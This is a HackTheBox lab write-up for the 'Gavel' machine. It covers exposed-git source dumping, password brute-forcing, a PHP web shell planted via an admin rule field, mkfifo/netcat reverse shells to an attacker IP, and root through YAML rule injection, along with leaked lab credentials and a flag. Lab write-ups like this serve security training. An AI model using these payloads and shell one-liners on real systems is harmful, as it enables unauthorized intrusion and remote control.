




# Gavel - HackTheBox Writeup

## Initial Reconnaissance

Starting with the classic nmap scan to see what we're dealing with:

```bash
nmap -p- -sV -A 10.10.11.97
```

The scan reveals a pretty standard setup - just SSH on port 22 and HTTP on port 80. The HTTP service redirects to `http://gavel.htb/`, so I add that to my `/etc/hosts` file. Nothing too exciting yet, but port 80 is always a good starting point.

## Web Application Analysis

The homepage presents itself as a magical items auction site. Each time you refresh, different items appear for bidding. It's actually pretty well designed for a CTF challenge.



I create an account and start exploring the functionality. They give you 50k tokens to play with, so I start placing bids and capturing everything in Burp Suite to understand how the application works.

## The Git Discovery

While poking around, I discover something interesting - the `.git` directory is exposed. Ironically, this wasn't in any of my wordlists, which is frustrating because exposed git repositories are one of my favorite attack vectors.



I use [git-dumper](https://github.com/arthaud/git-dumper) to extract the repository contents. Now I have the entire source code to analyze.

## The SQL Injection Rabbit Hole

Going through the code, I spot what looks like a classic SQL injection vulnerability in `inventory.php`:



The interesting parts are:

1. `$sortItem = $_POST['sort'] ?? $_GET['sort'] ?? 'item_name';` - Takes the sort parameter from POST or GET
2. `$col = "`" . str_replace("`", "", $sortItem) . "`";` - Wraps it in backticks and removes any backticks from the parameter
3. A conditional check: `if ($sortItem === 'quantity') { ...` - The parameter must be different from "quantity"
4. `$stmt = $pdo->prepare("SELECT $col FROM inventory WHERE user_id = ? ORDER BY item_name ASC");` - The parameter is directly integrated into the query

This looks exploitable at first glance. But after spending way too much time trying different injection techniques, I realize it's actually a dead end. The backtick filtering and prepared statement structure make it unexploitable. Classic CTF bait.

## Finding the Admin Account

While exploring the git repository, I notice something in the config:

```bash
cat .git/config
```

```
[user]
    name = sado
    email = sado@gavel.htb
```

I also remember seeing an "auctioneer" role in the code that has admin privileges. Feeling stuck, I check some hints and learn this is actually a password bruteforce challenge (kind of disappointing, honestly).

I start testing various usernames in the registration form with keywords from my reconnaissance: "sado", "admin", "administrator", and then "auctioneer" - BINGO! I get the message "this name is already in use". This wouldn't work on a shared machine with other players, but whatever.

Time to bruteforce. I fire up Burp Suite with Turbo Intruder and rockyou.txt, and eventually land on the credentials: `auctioneer:midnight1`

## Admin Panel Exploitation

Once logged in as auctioneer, I have access to modify the auction rules, which are executed as PHP code. This is my way in.



I modify a rule to create a simple web shell:

```php
system('echo \'<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>\' > cmd93.php');
```

I couldn't get the reverse shell to work directly, so I created this intermediate file to test commands. From the newly created page, I execute:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.70 9333 >/tmp/f
```

This time it works (not sure why the direct approach failed, but I'm not complaining). I get a shell as the web user, then `su` to auctioneer using the same password `midnight1`. The user flag is waiting in the home directory.

## Privilege Escalation

I start enumerating the system and notice some interesting services running as root:

```
auction_watcher.service    loaded active running Auction watcher every second
gaveld.service            loaded active running Gavel Root Daemon
timeout_gavel.service     loaded active running Apache bid_handler killer
```

The `gaveld.service` catches my attention:

```bash
systemctl status gaveld
```

```
● gaveld.service - Gavel Root Daemon
     Loaded: loaded (/etc/systemd/system/gaveld.service; enabled; vendor preset: enabled)
     Active: active (running) since Fri 2026-01-02 04:01:02 UTC; 10h ago
   Main PID: 916 (gaveld)
      Tasks: 2 (limit: 4558)
     Memory: 4.1M
        CPU: 46ms
     CGroup: /system.slice/gaveld.service
             └─916 /opt/gavel/gaveld
```

The binary is readable:

```bash
ls -la /opt/gavel/gaveld
-rwxr-xr-- 1 root root 35992 Oct  3 19:35 /opt/gavel/gaveld
```

From analyzing the binary, I see it creates a socket. Rather than fully reversing everything, I search for where this daemon is being used:

```bash
grep -rl "gaveld" / 2>/dev/null
```

```
/opt/gavel/gaveld
/usr/local/bin/gavel-util
```

Found it! Let's see what `gavel-util` can do:

```bash
/usr/local/bin/gavel-util help
```

```
Usage: /usr/local/bin/gavel-util <cmd> [options]
Commands:
  submit <file>           Submit new items (YAML format)
  stats                   Show Auction stats
  invoice                 Request invoice
```

## YAML Injection to Root

There's a sample YAML file in `/opt/gavel/sample.yaml`. I copy it to test:

```bash
cp /opt/gavel/sample.yaml /tmp
/usr/local/bin/gavel-util submit /tmp/sample.yaml
```

```
YAML missing required keys: name description image price rule_msg rule
```

Turns out you need to remove the `item:` wrapper and keep just the content. The original structure:

```yaml
---
item:
  name: "Dragon's Feathered Hat"
  description: "A flamboyant hat rumored to make dragons jealous."
  image: "https://example.com/dragon_hat.png"
  price: 10000
  rule_msg: "Your bid must be at least 20% higher than the previous bid and sado isn't allowed to buy this item."
  rule: "return ($current_bid >= $previous_bid * 1.2) && ($bidder != 'sado');"
```

I try injecting a simple command in the `rule` field:

```yaml
rule: "system('touch /tmp/proof');"
```

```
Illegal rule or sandbox violation.SANDBOX_RETURN_ERROR
```

From my earlier analysis of the daemon in Ghidra, I remember seeing this message tied to a validation check. The rule needs to return a boolean. Let me adjust:

```yaml
rule: "system('touch /tmp/proof'); return(True);"
```

```
Item submitted for review in next auction
```

It accepts the submission, but the `touch` command doesn't execute. Interesting. Let me try the reverse shell directly:

```yaml
name: "Dragon's Feathered Hat"
description: "A flamboyant hat rumored to make dragons jealous."
image: "https://example.com/dragon_hat.png"
price: 10000
rule_msg: "Your bid must be at least 20% higher than the previous bid and sado isn't allowed to buy this item."
rule: "system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.70 9334 >/tmp/f'); return(True);"
```

```bash
nc -nlvp 9334
```

```
listening on [any] 9334 ...
connect to [10.10.14.70] from (UNKNOWN) [10.10.11.97] 40544
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# cat root.txt
6551adbf7748280195f3efe0625f7251
#
```

And we're root! Not entirely sure why the direct reverse shell worked when the simple `touch` didn't, but I'm not complaining.

## Conclusion

This box had some frustrating moments, particularly the SQL injection red herring and the password bruteforce requirement (which feels pretty outdated for modern CTFs). I lost a lot of time on the fake SQLi vulnerability, but apparently everyone on the internet shares that frustration, so I don't feel too bad about it.

The exposed `.git` directory not being in my wordlist was embarrassing since it's one of my favorite attack vectors. The privilege escalation part was straightforward once you found the right path - the small amount of reverse engineering needed was actually enjoyable.

Overall, it's a decent easy-to-medium box if you can get past the bruteforce step. The YAML injection for privilege escalation was creative and well-executed.

**Key Takeaways:**
- Always check for `.git` directories manually if your wordlist misses it
- Not every suspicious code pattern is actually exploitable
- YAML deserialization and injection continue to be powerful attack vectors
- Sometimes the direct approach works when the subtle one doesn't